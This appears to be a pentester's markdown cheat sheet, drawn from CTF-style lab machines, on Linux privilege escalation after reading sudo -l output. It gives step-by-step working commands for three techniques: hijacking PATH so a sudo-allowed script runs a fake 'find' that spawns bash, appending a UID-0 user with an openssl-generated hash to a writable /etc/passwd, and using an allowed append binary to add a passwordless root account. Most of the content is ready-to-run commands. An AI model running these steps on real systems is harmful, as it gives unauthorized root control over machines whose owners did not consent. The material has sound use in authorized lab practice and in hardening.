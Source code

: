 # sudo -l 

## Case 1 - 

```
$sudo -l 

Matching Defaults entries for wizard on pb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on pb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
-----------------------------------------------------

If we see a SETENV in that case we need to - 

    a. cat the file /opt/cleanup.sh
    b. see which command in that doesnot have an absolute path set
    c. In our case, find didn't have an absolute path set.
    d. make an executable file in /tmp named find.  -- echo "bash" > /tmp/find && chmod +x /tmp/find
    e. Now set the PATH environment variable to /tmp and also execute the cleanup.sh script to priv esc
        
         sudo PATH=/tmp:$PATH /opt/cleanup.sh

-----------------------------------------------------       

if you have read/write access to /etc/passwd you can:
    ```
    openssl passwd whateverPasswordYouWant
    echo "myUser:hashFromAboveCommand:0:0:root:/root:/bin/bash" >> /etc/passwd
    su myUser
    ```
         
## Case 2
```
$sudo -l 
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```
In this case this binary can be used to append text to a file
```
a. So we used the binary to add a root user to the /etc/password file with no password
        teehee -a /etc/passwd
       anindya:0:0:root:/root:/bin/bash

b. Then switch user to become root
        su anindya
```
